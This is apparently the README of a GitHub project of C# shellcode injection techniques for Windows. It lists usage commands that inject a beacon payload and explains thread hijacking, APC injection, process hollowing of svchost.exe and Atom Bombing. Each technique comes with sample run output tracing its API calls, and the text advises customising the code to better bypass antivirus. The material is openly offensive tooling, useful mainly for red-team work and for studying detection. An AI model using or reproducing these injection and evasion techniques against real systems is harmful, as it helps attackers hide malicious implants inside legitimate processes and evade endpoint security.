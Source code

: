 # Shellcode Injection Techniques
A collection of C# shellcode injection techniques. 

**Note:** The project is not intended to be used as-is. If you are going to use any of the techniques there is a better chance of bypassing AV if you create a smaller, customised project with your chosen technique.

If you do use any of the code in these repositories **keep it legal!**

## Usage: 

```
> Shellcode-Injection-Techniques.exe 
Please enter technique number, shellcode file and process id.
Usage: Injector <technique no.> <SHELLCODE> [PID - default: notepad pid]
  1. Shellcode Runner
  2. Classic Injection
  3. Thread Hijacking
  4. Local Thread Hijacking
  5. Asychronous Procedure Call Injection(APC Injection)
  6. Process Hollowing
  7. Inter - Process Mapped View
  8. Atom Bombing
  9. Process Doppelgänging(TODO)
```
run with args 
```
> Shellcode-Injection-Techniques.exe 1 beacon_x64.bin
> Shellcode-Injection-Techniques.exe 2 beacon_x64.bin
> Shellcode-Injection-Techniques.exe 5 beacon_x64.bin 4345
```

## Details
#### Assembly Injection
You can use a [PowerShell assembly injection technique](https://github.com/KINGSABRI/Shellcode-Injection-Techniques/blob/master/assembly-injection.ps1) if you want to avoid writing .Net binaries to disk.

### Shellcode Runner
[ShellcodeRunner.cs](https://github.com/KINGSABRI/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ShellcodeRunner.cs) : This technique isn't strictly an injection technique (because we execute the shellcode in the same process) but is the simplest of all techniques. We ensure the shellcode uses a fixed memory location in an `unsafe` context. We change the protection on the page where the shellcode is located so we can execute it. We then use a C# delegate function to execute the shellcode.

```
[+] Using technique: ShellcodeInjectionTechniques.ShellcodeRunner
[+] VirtualProtect() - set to PAGE_EXECUTE_READWRITE, shellcode address: 0x20D000418E0
[+] Executing shellcode - memory address: 0x20D000418E0
```

### Classic Injection
[ClassicInjection.cs](https://github.com/KINGSABRI/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ClassicInjection.cs) : This technique allocates memory in the target process, injects the shellcode and starts a new thread.

```
[+] Found process: 24484
[+] Using technique: ShellcodeInjectionTechniques.ClassicInjection
[+] VirtualAllocEx(), assigned: 0x23642220000
[+] WriteProcessMemory() - remote address: 0x23642220000
[+] CreateRemoteThread() - thread handle: 0x380
```

### Thread Hijacking
[ThreadHijack.cs](https://github.com/KINGSABRI/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ThreadHijack.cs) : This technique hijacks a thread by injection code into the target process, suspends the hijacked thread, sets the instruction pointer (RIP) to our injected code and then resumes the thread.

```
[+] Found process: 11508
[+] Using technique: ShellcodeInjectionTechniques.ThreadHijack
[+] Found thread: 9344
[+] OpenThread() - thread handle: 0x378
[+] VirtualAllocEx(), assigned: 0x1D17AB80000
[+] WriteProcessMemory() - remote address: 0x1D17AB80000
[+] SuspendThread() - thread handle: 0x378
[+] GetThreadContext() - thread handle: 0x378
[+] RIP is: 0x7FFA77D21104
[+] SetThreadContext(), RIP assigned: 0x1D17AB80000
[+] ResumeThread() - thread handle: 0x378
```

### Local Thread Hijacking
[LocalThreadHijack.cs](https://github.com/KINGSABRI/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/LocalThreadHijack.cs) : This technique creates a new local thread in a suspended state, we then hijack the thread, sets the instruction pointer (RIP) to our injected code and then resume the thread.

```
[+] Using technique: ShellcodeInjectionTechniques.LocalThreadHijack
[+] CreateThread() - thread handle: 0x374
[+] VirtualProtect() - set to PAGE_EXECUTE_READWRITE, shellcode address: 0x270800418E0
[+] GetThreadContext() - thread handle: 0x374
[+] RIP is: 0x7FFA79EE2630
[+] SetThreadContext(), RIP assigned: 0x270800418E0
[+] ResumeThread() - thread handle: 0x374
```

### Asychronous Procedure Call Injection
[ACPInjection.cs](https://github.com/KINGSABRI/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/APCInjection.cs) : This technique is similar to the Thread Hijacking technique. We inject the shellcode into a remote thread, then queue an APC object in the thread. When the thread enters an alertable state (when it calls `SleepEx`, `SignalObjectAndWait`, `MsgWaitForMultipleObjectsEx`, `WaitForMultipleObjectsEx`, or `WaitForSingleObjectEx`) it runs our shellcode pointed to by our queued APC object. 

```
[+] Found process: 25320
[+] Using technique: ShellcodeInjectionTechniques.APCInjection
[+] Found thread: 23796
[+] OpenThread() - thread handle: 0x378
[+] VirtualAllocEx(), assigned: 0x24E064D0000
[+] WriteProcessMemory() - remote address: 0x24E064D0000
[+] QueueUserAPC() - thread handle: 0x378
```

### Process Hollowing
[ProcessHollow.cs](https://github.com/KINGSABRI/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/ProcessHollow.cs) : This technique starts another process in the suspended state (svchost.exe), finds the main thread entry point, injects our shellcode into it then resumes the thread.

```
[+] Using technique: ShellcodeInjectionTechniques.ProcessHollow
[+] CreateProcess(): C:\Windows\System32\svchost.exe
[+] Pointer to ImageBase: 0xD31E956010
[+] ReadProcessMemory() - image base pointer: 0xD31E956010
[+] ImageBase: 0x7FF6116C0000
[+] ReadProcessMemory() - svchost base: 0x7FF6116C0000
[+] EntryPoint: 0xD31E956010
[+] WriteProcessMemory(): 0x7FF6116C4E80
[+] ResumeThread() - thread handle: 0x454
```

### Inter-Process Mapped View
[InterProcessMappedView.cs](https://github.com/KINGSABRI/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/InterProcessMappedView.cs) : This technique creates a new section in memory, creates a local mapped view of the section, copies our shellcode into the local mapped view and creates a remote mapped view of the local mapped view in the target process. Finally we create a new thread in the target process with the mapped view as the entry point.

```
[+] Found process: 23740
[+] Using technique: ShellcodeInjectionTechniques.InterProcessMappedView
[+] NtCreateSection() - section handle: 0x37C
[+] NtMapViewOfSection() - local view: 0x20CB8E40000
[+] Marshalling shellcode
[+] NtMapViewOfSection() - remote view: 0x22D90310000
[+] RtlCreateUserThread() - thread handle: 0x384
```

### Atom Bombing
[AtomBomb.cs](https://github.com/KINGSABRI/Shellcode-Injection-Techniques/blob/master/ShellcodeInjectionTechniques/Techniques/AtomBomb.cs) : This technique is interesting in how we write shellcode to the target process. We use the Global Atom Table which allows us to write null terminated strings with a maximum size of 255 bytes. We find a code cave to write our shellcode to, then use APC calls to trigger the target process to read the Atom Names into memory. Finally we use a couple of APC calls to change the memory protection of the target and execute the shellcode.

My code differs from the original [Atom Bombing](https://www.fortinet.com/blog/threat-research/atombombing-brand-new-code-injection-technique-for-windows) technique, written in C/C++. First, I chain Atom Names together, using multiple APCs, to form a shellcode of larger than 255 bytes. I don't use ROP chains to force the target process to call `VirtualProtect` and then execute the code, I use the APC queue.

This code requires the main thread to enter an alertable state in order to execute the APC queue and I do not clean up after the shellcode execution, the target process becomes unstable. I plan to improve on this technique (by seraching for alertable threads and cleaning up afterwards), but as a PoC it works well.

```
[+] Found process: 14140
[+] Using technique: ShellcodeInjectionTechniques.AtomBomb
[+] Found thread: 5940
[+] OpenThread() - thread handle: 0xD0
[+] FindWritablePages() - number found: 2
[+] Found a suitable code cave - pWritable: 0x2CE60031
[+] GetProcAddress() - pGlobalGetAtomNameW: 0x7FFE20EB2680
[+] GlobalAddAtom() - ATOM: 0xC091
[+] NtQueueApcThread() - pWritable: 0x2CE60031
[+] GlobalAddAtom() - ATOM: 0xC06F
[+] NtQueueApcThread() - pWritable: 0x2CE600F9
[+] GlobalAddAtom() - ATOM: 0xC080
[+] NtQueueApcThread() - pWritable: 0x2CE601C1
[+] GlobalAddAtom() - ATOM: 0xC088
[+] NtQueueApcThread() - pWritable: 0x2CE60289
[+] GlobalAddAtom() - ATOM: 0xC084
[+] NtQueueApcThread() - pWritable: 0x2CE60351
[+] GetProcAddress() - pVirtualProtect: 0x7FFE20EBBC70
[+] NtQueueApcThread() PAGE_EXECUTE_READWRITE - codeCave: 0x2CE60031
[+] QueueUserAPC() - codeCave: 0x2CE60031
```

## Notes
The Atom Bombing technique places null terminated strings in the Global Atom Table, this means you must use shellcode that doesn't have 0x00 characters in it.

Remember you will need to start a process to inject to, except when using the shellcode runner, local thread hijack technique or the process hollowing technique (this technique starts a new process in the suspended state).

```
[!] Unable to find process to inject into!
```

When using the shellcode runner, local thread hijack technique or the process hollowing technique you will need to comment out the code in `Program.cs` that looks for the process to inject into:

```csharp
/*
Process[] processes = Process.GetProcessesByName("notepad");

if(processes.Length == 0)
{
  Debug("[!] Unable to find process to inject into!");
  return;
}

Debug("[+] Found process: {0}", new string[] { processes[0].Id.ToString() });
target = processes[0];
*/
```
